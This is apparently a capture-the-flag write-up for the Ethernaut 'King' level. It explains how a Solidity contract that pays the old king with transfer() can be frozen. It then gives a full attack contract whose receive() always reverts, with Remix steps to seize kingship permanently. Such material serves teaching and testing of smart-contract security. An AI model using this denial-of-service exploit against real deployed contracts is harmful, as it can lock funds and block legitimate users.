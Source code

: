 # 09 King

```
The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

#### Start 


### (1) `  avoid  reclaim kingship `
We need to find the part of the code that changes king  is the `receive()` function


So how do we prevent the reclaim kingship?

.

.

. You need to see if the code Which part can make transaction revert?

.

.


this section can make transaction revert because it will call to external contract which is can be vulnerability.

```
payable(king).transfer(msg.value);
```
The `transfer` fucntion will send ether to the external contract which will trigger external contract `fallback()` 


this allows us to create a contract to attack by writing `revert()` in our fallback() fucntion.


#### This is the code I used to attack contract King 
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface King {
  function _king() external view returns(address);
  function prize() external view returns(uint256);
}


contract AtkKing {

    function checkPrizeKing(address _kingAddress) public view returns(uint256) {
      return King(_kingAddress).prize();
    }

    function checkKing(address _kingAddress) public view returns(address) {
      return King(_kingAddress)._king();
    }


     function callKing(address _kingAddress) public payable  {
       (bool s,) = address(_kingAddress).call{value:msg.value}("");
       require(s);
    }

      receive() external payable {
        revert("avoid  reclaim kingship");
    }
}

```
- `function checkPrizeKing(address _kingAddress) public view returns(uint256)`

    This function just check Prize 

- `function checkKing(address _kingAddress) public view returns(address) `

    This function just check address King

- ` function callKing(address _kingAddress) public payable`

    This function to call `receive()` function  in contract King

- ` receive() external payable`

    This function will revert when ether is sent to this contract using the method `send` or `transfer` or `call`


Use the remix deploy contract `AtkKing`

 - (1) We have to become king first by calling `recive()` in the contract King  and must pass the conditions `require(msg.value >= prize || msg.sender == owner);`

 - (2) We need to know the  `prize` to send ether for the call  `recive()` to pass and become king

  - (3) call the function `function checkPrizeKing(address _kingAddress) public view returns(uint256)` in remix 
    
    You will see the message `0:uint256: 1000000000000000` this is `prize`

  - (4) call the function `function callKing(address _kingAddress) public payable` and set wei to 1000000000000000 in remix then  confirm transaction
  
  - (5) call the function `function checkKing(address _kingAddress) public view returns(address)` in remix 
  
     and you will see that the contract AtkKing you deployed has become king.

     From now on, anyone who attempts to become king will be completely reverted
    


Click button Submit instance and confirm transaction

# !!! we passed !!!


